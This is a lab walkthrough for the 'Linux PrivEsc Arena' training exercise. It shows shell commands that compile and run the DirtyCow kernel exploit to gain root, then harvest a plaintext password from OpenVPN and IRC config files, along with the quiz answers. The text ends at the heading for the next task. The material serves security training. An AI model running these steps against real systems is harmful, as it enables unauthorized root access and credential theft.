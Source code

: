 # Linux PreviEsc Arena

#### Reference

{% embed url="https://github.com/sagishahar/lpeworkshop" %}

## Task 3 Kernel Exploits

```bash
/home/user/tools/linux-exploit-suggester/linux-exploit-suggester.sh
# [+] [CVE-2016-5195] dirtycow
gcc -pthread /home/user/tools/dirtycow/c0w.c -o c0w
./c0w
passwd
id
# uid=0(root) gid=1000(user) groups=0(root)
```

## Task 4 Stored Password (Config Files)

```bash
cat /home/user/myvpn.ovpn | sed -n 12p
# auth-user-pass /etc/openvpn/auth.txt
cat /etc/openvpn/auth.txt
# user
# password321
cat /home/user/.irssi/config | grep -i -C 4 passw
# chatnets = {
#   Freenode = {
#     type = "IRC";
#     nick = "user";
#     autosendcmd = "/msg nickserv identify password321 ;wait 2000";
#   };
# };
```

#### What password did you find?

{% hint style="success" %}
`password321`
{% endhint %}

#### What user's credentials were exposed in the OpenVPN auth file?

{% hint style="success" %}
user
{% endhint %}

## Task 5 Stored Passwords (History)
